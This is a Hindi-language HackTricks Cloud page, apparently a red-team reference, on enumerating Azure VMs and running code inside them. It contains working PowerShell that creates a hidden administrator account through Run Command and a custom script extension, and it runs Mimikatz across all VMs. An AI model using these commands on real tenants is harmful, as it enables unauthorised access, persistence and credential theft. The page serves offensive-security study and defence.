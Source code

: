 # Az - वर्चुअल मशीनें और नेटवर्क

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}

## बुनियादी जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure वर्चुअल मशीनें [ऑन-डिमांड, स्केलेबल कंप्यूटिंग संसाधनों](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) के कई प्रकारों में से एक हैं जो Azure प्रदान करता है। आमतौर पर, आप एक वर्चुअल मशीन चुनते हैं जब आपको कंप्यूटिंग वातावरण पर अधिक नियंत्रण की आवश्यकता होती है जो अन्य विकल्प प्रदान करते हैं। यह लेख आपको बताता है कि आपको वर्चुअल मशीन बनाने से पहले क्या विचार करना चाहिए, आप इसे कैसे बनाते हैं, और आप इसे कैसे प्रबंधित करते हैं।

## Azure नेटवर्क जानकारी

Azure नेटवर्क में **विभिन्न संस्थाएँ और इसे कॉन्फ़िगर करने के तरीके शामिल हैं।** आप विभिन्न Azure नेटवर्क संस्थाओं के संक्षिप्त **विवरण,** **उदाहरण** और **गणना** कमांड पा सकते हैं:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure बैस्टियन

**Azure बैस्टियन** SSL के माध्यम से Azure पोर्टल पर एक सुरक्षित, पूरी तरह से प्रबंधित RDP (रिमोट डेस्कटॉप प्रोटोकॉल) और SSH (सिक्योर शेल) एक्सेस समाधान प्रदान करता है। यह Azure वर्चुअल नेटवर्क के भीतर एकीकृत है, जो निजी आईपी का उपयोग करके VMs के लिए RDP और SSH कनेक्टिविटी की अनुमति देता है, सार्वजनिक आईपी की आवश्यकता को समाप्त करता है। यह सार्वजनिक आईपी असाइनमेंट और VM एक्सेस के लिए NSG नियम कॉन्फ़िगरेशन से संबंधित पारंपरिक तरीकों की तुलना में एक सुरक्षित, अधिक सुविधाजनक विकल्प बनाता है। डेवलपर्स और IT कर्मी Azure पोर्टल से अपने वेब ब्राउज़रों का उपयोग करके VMs तक सुरक्षित रूप से पहुँच सकते हैं, विकास और परीक्षण वातावरण के लिए प्रक्रिया को सरल बनाते हैं।

आप अपनी सदस्यता में सभी Azure बैस्टियन होस्ट की सूची बनाने के लिए निम्नलिखित कमांड का उपयोग कर सकते हैं:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM सूचीकरण
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM में कमांड चलाएँ**

### **VM में AAD लॉगिन**

AzureAD के माध्यम से प्रमाणित उपयोगकर्ताओं को पहुँच की अनुमति देना संभव है। उदाहरण के लिए, एक **linux VM** तक पहुँचने की कोशिश करते समय: `ssh username@azure-corp.com@1.1.1.1` (लॉगिन करने की कोशिश करते समय azurecorp के साथ **ईमेल का उपयोग करना** महत्वपूर्ण है) आपको एक त्रुटि मिल सकती है:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

बस **उन निर्देशों का पालन करें** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) पर जाकर और कोड को इंगित करते हुए, ईमेल और पासवर्ड को क्रेडेंशियल के रूप में उपयोग करें और आप SSH के माध्यम से कनेक्ट करने में सक्षम होंगे (यदि उस उपयोगकर्ता के पास ऐसा करने के लिए पर्याप्त अनुमतियाँ हैं: `Virtual Machine Administrator Login` या `Virtual Machine User Login` भूमिका)।

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **कस्टम स्क्रिप्ट एक्सटेंशन चलाएँ**

Azure वर्चुअल मशीन (VM) एक्सटेंशन **छोटी एप्लिकेशन** हैं जो **Azure VMs** पर पोस्ट-डिप्लॉयमेंट कॉन्फ़िगरेशन और ऑटोमेशन **कार्य** प्रदान करती हैं। उदाहरण के लिए, यदि एक वर्चुअल मशीन को सॉफ़्टवेयर इंस्टॉलेशन, एंटीवायरस सुरक्षा, या इसके अंदर एक स्क्रिप्ट चलाने की आवश्यकता है, तो आप एक VM एक्सटेंशन का उपयोग कर सकते हैं।

इसलिए, यदि आपके पास इसे लिखने का एक्सेस है, तो आप मनमाना कोड निष्पादित कर सकते हैं:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) एक PowerShell उपकरण है जो Ansible के समान है, जिसका उपयोग कोड के माध्यम से एक होस्ट को सेटअप करने के लिए किया जाता है। DSC Azure के साथ एकीकृत होता है, जो विशिष्ट कॉन्फ़िगरेशन फ़ाइलों को अपलोड करने की अनुमति देता है। इन फ़ाइलों को एक सख्त सिंटैक्स का पालन करना चाहिए। विशेष रूप से, Azure में DSC एक्सटेंशन उन फ़ाइलों से कमांड निष्पादित कर सकता है जो कुछ प्रारूप मानदंडों को पूरा करती हैं, भले ही सिंटैक्स DSC मानकों के लिए सही न हो, जैसा कि प्रदान की गई आकृति में दिखाया गया है।

इन कमांडों का निष्पादन Az PowerShell में [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) फ़ंक्शन द्वारा किया जाता है। आवश्यकताओं में एक **.PS1** फ़ाइल शामिल है जिसमें एक परिभाषित फ़ंक्शन है और फ़ाइल को **.zip** फ़ाइल में संकुचित किया जाना चाहिए। भले ही सिंटैक्स DSC के लिए सटीक न हो, कोड फिर भी निष्पादित होगा। हालाँकि, एक्सटेंशन निष्पादन स्थिति को "विफलता" के रूप में चिह्नित करेगा, और स्थिति विफलता संदेश द्वारा अधिलेखित होने के कारण कमांड से कोई आउटपुट दिखाई नहीं देगा।

### VM Application Definitions

VM Application Definitions Azure VM पर संस्करणित अनुप्रयोगों की पुनरावृत्त तैनाती की अनुमति देती हैं। यह संसाधन VMs के बीच अनुप्रयोगों की तैनाती और अपडेट का समर्थन करता है। इसे सेट करने के लिए, कई चरणों की आवश्यकता होती है, जिसमें Az PowerShell में **`New-AzGalleryApplication`** और **`New-AzGalleryApplicationVersion`** जैसे कमांड शामिल हैं।

इस विधि के माध्यम से अनुप्रयोगों या कमांडों का निष्पादन **"VMAppExtension"** के माध्यम से होता है, जो स्वचालित रूप से तब स्थापित होता है जब एक अनुप्रयोग को VM पर लागू किया जाता है। एक्सटेंशन निर्दिष्ट URI से फ़ाइल को पुनः प्राप्त करता है और इसे अनुप्रयोग के रूप में ठीक उसी नाम से नामित करता है, बिना किसी एक्सटेंशन के। फ़ाइल को सही ढंग से निष्पादित करने के लिए, REST API कॉल में "ManageActions" फ़ील्ड को उचित एक्सटेंशन के साथ फ़ाइल का नाम बदलने के लिए कॉन्फ़िगर किया जाना चाहिए। इस विधि की सेटअप, एक बार पूर्ण होने पर, प्रदान की गई आकृति में दिखाए गए ढांचे के समान होगी।

हालाँकि, इस निष्पादन की विधि अपेक्षाकृत धीमी है, एक अनुप्रयोग या कमांड को निष्पादित करने में लगभग 3-4 मिनट लगते हैं। इस प्रक्रिया से संबंधित फ़ाइलें विशिष्ट निर्देशिकाओं में संग्रहीत होती हैं (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` अनुप्रयोग कॉपी के लिए और `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` निष्पादन स्थिति के लिए)।

दोनों तकनीकें Azure वातावरण में कमांड निष्पादित करने और अनुप्रयोगों को तैनात करने के अद्वितीय तरीके प्रदान करती हैं, प्रत्येक के अपने सेट आवश्यकताएँ, चरण और विचार होते हैं।

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) Azure में एक विशेषता है जो Automation Account में कॉन्फ़िगर किए गए Runbooks को एक Azure Virtual Machine (VM) पर निष्पादित करने की अनुमति देती है जो निर्दिष्ट HWG का हिस्सा है। यह निष्पादन VM पर स्थापित एक एक्सटेंशन के माध्यम से किया जाता है, जो VM पर Runbook कोड को तैनात करता है। इस प्रक्रिया का एक महत्वपूर्ण पहलू यह है कि वास्तविक क्रेडेंशियल्स निष्पादन में एक कारक नहीं होते हैं क्योंकि कोड उच्च विशेषाधिकारों के साथ चलता है, विशेष रूप से **SYSTEM** या रूट के रूप में, जैसा कि प्रदान की गई आकृति में दर्शाया गया है।

Windows 10 VMs का उपयोग करने वालों के लिए एक महत्वपूर्ण विवरण यह है कि Runbook के लिए PowerShell संस्करण निर्दिष्ट करना आवश्यक है। इसे PowerShell संस्करण 5.1 के रूप में चलाने के लिए सेट किया जाना चाहिए, न कि 7.1 के रूप में। यह आवश्यकता इस तथ्य से उत्पन्न होती है कि PowerShell 7.1 डिफ़ॉल्ट रूप से इन VMs पर स्थापित नहीं है, जिससे यदि संस्करण 7.1 निर्दिष्ट किया जाता है तो स्क्रिप्ट निष्पादन में विफलता होती है।

Azure की यह विशेषता हाइब्रिड वातावरण में कार्यों को स्वचालित और प्रबंधित करने के लिए एक मजबूत विधि प्रदान करती है, जो Azure VMs पर कार्यों के केंद्रीकृत प्रबंधन और निष्पादन की अनुमति देती है।

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
